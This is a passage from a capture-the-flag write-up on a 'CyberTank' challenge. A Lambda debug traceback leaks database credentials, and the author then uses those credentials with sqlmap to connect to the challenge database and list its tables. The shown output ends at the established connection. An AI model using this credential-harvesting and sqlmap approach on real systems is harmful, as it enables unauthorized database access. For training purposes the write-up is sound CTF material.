 ```console
              45c8249e569a6',
                          'X-Forwarded-For': '77.124.115.11',
                          'X-Forwarded-Port': '443',
                          'X-Forwarded-Proto': 'https',
                          'accept': '*/*'},
              'multiValueHeaders': {'Content...
     context = <bootstrap.LambdaContext object at 0x7f5ddead6e10>
     query = {'action': 'forgot',
              'username': ''}
     conn = <pymysql.connections.Connection object at 0x7f5dde777a50>
     pymysql.connect = <function 'Connect' __init__.py:88>
     rds_config.db_host = 'database-cybertank-tst.cj6jw4xocthe.eu-central-1.rds.amazon
                           aws.com'
     rds_config.db_user = 'cyber_ro'
     rds_config.db_pass = 'CTF{6d4efb805865d7fcc6fec9da232044a7w}'
     rds_config.db_name = 'cybertank'
     pymysql.cursors.DictCursor = <class 'pymysql.cursors.DictCursor'>
    ..................................................

File /var/task/lambda_function.py, line 36, in forgot
    32   def forgot(username):
    33          global conn
    34
    35          if not username.isalnum():
--> 36                  raise Exception("Username validation failed.")
    37
    ..................................................
     username = ''
     conn = <pymysql.connections.Connection object at 0x7f5dde777a50>
    ..................................................

Exception: Username validation failed.
```

The DB password is leaked as part of the debug information.

## Superuser (75 points)

> The superuser account can access everything. Can you find out the account's password and tell the CyberTank executives whether it's secure? 
> 
> Flag format: password

We already have the credentials and server details, just need to connect:

```console
root@kali:/media/sf_CTFs/hackazon/CyberTank_Website# sqlmap -d "mysql://cyber_ro:CTF{6d4efb805865d7fcc6fec9da232044a7w}@database-cybertank-tst.cj6jw4xocthe.eu-central-1.rds.amazonaws.com:3306/cybertank" --tables
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.2.5#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 19:34:50

[19:34:51] [INFO] connection to mysql server database-cybertank-tst.cj6jw4xocthe.eu-central-1.rds.amazonaws.com:3306 established
```